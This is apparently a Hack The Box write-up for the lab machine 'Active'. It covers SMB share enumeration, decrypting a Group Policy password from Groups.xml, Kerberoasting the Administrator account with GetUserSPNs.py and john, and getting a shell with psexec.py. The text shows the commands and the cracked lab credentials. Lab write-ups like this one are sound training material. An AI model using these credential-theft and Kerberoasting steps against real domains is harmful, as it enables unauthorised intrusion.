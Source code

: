 ```yaml
---
title: "Hack The Box - Active"
tags: [windows,medium,kerberoasting , smb , psexec]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled.png)

### NMAP

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%201.png)

### *Enumerating*

⇒ Enumerating the smb shares :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%202.png)

⇒ In replication share we found Groups.xml which has an password which we can decrypt using gpp-decrypt ( group policy password ) :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%203.png)

**svc_tgs : GPPstillStandingStrong2k18**

### *Kerberoasting*

⇒ So running [GetUserSPNs.py](http://getuserspns.py) we see that there's an SPN set for Administrator user. We requested the tgs and cracked it locally using john :

**python3 [GetUserSPNs.py](http://getuserspns.py/) active.htb/'svc_tgs:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%204.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%205.png)

**Administrator : Ticketmaster1968**

⇒ Using psexec to get a shell with administrator credentials :

**psexec.py administrator@10.10.10.100**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Active%20Box%20258484d566334095813a3585114c341f/Untitled%206.png)

